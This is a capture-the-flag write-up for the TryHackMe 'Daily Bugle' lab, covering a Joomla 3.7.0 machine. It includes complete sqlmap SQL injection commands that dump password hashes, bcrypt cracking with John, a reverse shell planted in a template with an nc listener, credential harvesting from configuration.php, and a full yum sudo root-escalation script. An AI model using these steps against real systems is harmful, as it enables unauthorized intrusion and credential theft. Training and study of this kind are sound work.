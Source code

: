 # Daily Bugle

- [Tools](#tools)
- [Deploy](#deploy)
- [Obtain user and root](#obtain-user-and-root)
- [Credits](#credits)
 
Room Link: [https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)

## Tools 

- NMap https://nmap.org/download
- JoomScan https://github.com/OWASP/joomscan
- SearchSploit https://www.exploit-db.com/searchsploit
- SQLMap https://github.com/sqlmapproject/sqlmap
- hashid https://pypi.org/project/hashID/
- John The Ripper https://www.openwall.com/john/

## Deploy 

- Start the machine and open the ip in browser.
- Opening the site shows favicon of joomla on main page and a image with a man masked as spider man, looks like an robber.
- Question `Access the web server, who robbed the bank?` Answer `spiderman`

## Obtain user and root

- Running nmap gives some ports.
```bash
nmap -A 10.10.250.153
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-05 11:33 IST
Nmap scan report for 10.10.250.153
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.97 seconds
```
- Question `What is the Joomla version?` Answer `3.7.0`
Got this details using OWASP joomscan by Mohammad Reza Espargham , Ali Razmjoo.
Command used: `joomscan  -u http://10.10.250.153/`
- Using SearchSploit by exploitDB gives us SQL injection exploits on this joomla CMS version.
```bash
searchsploit joomla 3.7.0
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cros | php/webapps/43488.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```
- After some reasearch on the exploit https://www.exploit-db.com/exploits/42033 and using some commands in SQLMap,
At first we crafted a command to begin SQL injection `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E`
- Then crafted a SQLMap command to get db names `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E --dbs` and got a database named `joomla`
- Then crafted a command to table names on DB `joomla` command `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla --tables` and we will get a table named `#__users`
- To extract the table column names, we can use this command, `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla -T "#__users" --columns` it will prompt for bruteforcing existing column names, we can find some column names like `id`, `username`, `email`, `password` etc.
- Then, crafted a command to get password hash of users. `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla -T "#__users" -C id,name,username,email,password --dump`
It shows result like that,
```bash
+-----+------------+----------+---------------------+--------------------------------------------------------------+
| id  | name       | username | email               | password                                                     |
+-----+------------+----------+---------------------+--------------------------------------------------------------+
| 811 | Super User | jonah    | jonah@tryhackme.com | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+-----+------------+----------+---------------------+--------------------------------------------------------------+
```
- We used `hashid` to detect hash type and it could be `bcrypt`.
```bash
hashid '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```
- Now we can use `john the ripper` to decrypt the hash, using `rockyou.txt` wordlist.
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***********   (?)
1g 0:00:09:27 DONE (2020-06-14 17:12) 0.001762g/s 82.55p/s 82.55c/s 82.55C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- Question `What is Jonah's cracked password?` Answer `spiderman123`
- Now we can login using username `jonah` and password `spiderman123` on http://10.10.250.153/administrator/.
- Now just goto `Extensions` > `Templates` > `Templates` and select `Beez3` and edit the `index.php` file to get reverse shell.
- Now started  `netcat` with `nc -lvnp 1234` and replaced the code in `index.php` with pentestmonkey shell with own ip port and save.
- Opening http://10.10.250.153/templates/beez3/index.php will give shell.
```bash
nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.250.153 56764
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 04:23:12 up  5:27,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
```
- We can see only user named `jjameson` with command `ls /home`.
- After some digging we got some password `*************` inside `/var/www/html/configuration.php` using `cat /var/www/html/configuration.php`.
- So used the password to login ssh as user `jjameson` and got the flag
```bash ssh jjameson@10.10.250.153
The authenticity of host '10.10.250.153 (10.10.250.153)' can't be established.
ED25519 key fingerprint is SHA256:Gvd5jH4bP7HwPyB+lGcqZ+NhGxa7MKX4wXeWBvcBbBY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.250.153' (ED25519) to the list of known hosts.
jjameson@10.10.250.153's password: 
Last login: Tue Mar  5 04:27:31 2024
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt
**************************
```
- Question `What is the user flag?` Answer `**************************`
- Using `sudo -l` command shows `/usr/bin/yum`.
```bash
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
- Lets follow https://gtfobins.github.io/gtfobins/yum/ sudo exploit to get root.
- Just copy pasting given commands in `b` will upgrade ssh to `root`
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
- So typing `cat /root/root.txt` will give us root flag.
```bash
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# cat /root/root.txt
******************************
```
- Question `What is the root flag?` Answer `**************************`

## Credits

- We already completed the machine, just click on completed.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
